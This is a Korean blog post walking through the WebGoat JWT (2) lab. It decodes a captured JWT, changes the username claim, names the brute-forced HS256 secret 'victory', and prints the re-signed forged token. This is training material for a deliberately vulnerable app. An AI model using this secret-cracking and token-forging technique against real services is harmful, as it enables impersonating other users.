 ```yaml
---
layout: post
title: WebGoat - JWT (2)
date: 2021-01-20 16:00:00 +0900
category: Web_Hacking
---
```


# WebGoat - JWT (2)

#### 토큰을 획득하였을 때, 비밀 키를 찾은 뒤 사용자 이름이 'WebGoat'로 변경된 새로운 토큰을 만들어 제출하기

<br/>

> JWT(JSON Web Token)란 JSON 객체를 이용하여 정보를 안전하게 전달하고 신원 인증을 하는데 사용되는 토큰이다.

<br/>

획득한 토큰은 다음과 같다.

```shell
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJ0b21Ad2ViZ29hdC5jb20iLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQuY29tIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.vPe-qQPOt78zK8wrbN1TjNJj3LeX9Qbch6oo23RUJgM
```

<br/>

토큰의 내용을 보기 위해 디코딩 하면 결과는 다음과 같다.

![webgoat_jwt2_1](/public/img/webgoat_jwt2_1.PNG)

```shell
{"alg":"HS256","typ":"JWT"}.
{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,"aud":"webgoat.org","sub":"tom@webgoat.com","username":"Tom","Email":"tom@webgoat.com","Role":["Manager","Project Administrator"]}.
vPe-©Î·¿3+Ì+lÝSÒcÜ·õÜª(ÛtTJgM
```

<br/>

이제 claim영역에서 username을 "WebGoat"로 변경하자.

```shell
{"alg":"HS256","typ":"JWT"}.
{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,"aud":"webgoat.org","sub":"tom@webgoat.com","username":"WebGoat","Email":"tom@webgoat.com","Role":["Manager","Project Administrator"]}.
```

참고로 이번 문제는 JWT cracking으로 알고리즘을 'none'으로 변경해서 풀면 안되고, 직접 서명을 만들어야 한다. 

수정한 토큰에 대해 Brute Force를 진행하면 'victory'라는 단어가 나온다.

```shell
victory
```

<br/>

이제 파이썬 프로그램을 이용해 서명을 하자.

여기서 key값은 'victory', message 값에는 '조작한 헤더와 페이로드 부분', 알고리즘에는 'SHA256'으로 설정한 후 프로그램을 실행하면 Signature를 구할 수 있다.

```shell
5a_abHfAcy09gcD2p4RkkTc34m_yyYTJ0mI6DVx4eac
```

<br/>

이제 조작한 토큰은 다음과 같고, 제출하면 성공이다.

```shell
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJ0b21Ad2ViZ29hdC5jb20iLCJ1c2VybmFtZSI6IldlYkdvYXQiLCJFbWFpbCI6InRvbUB3ZWJnb2F0LmNvbSIsIlJvbGUiOlsiTWFuYWdlciIsIlByb2plY3QgQWRtaW5pc3RyYXRvciJdfQ==.5a_abHfAcy09gcD2p4RkkTc34m_yyYTJ0mI6DVx4eac
```

![webgoat_jwt2_2](/public/img/webgoat_jwt2_2.PNG)

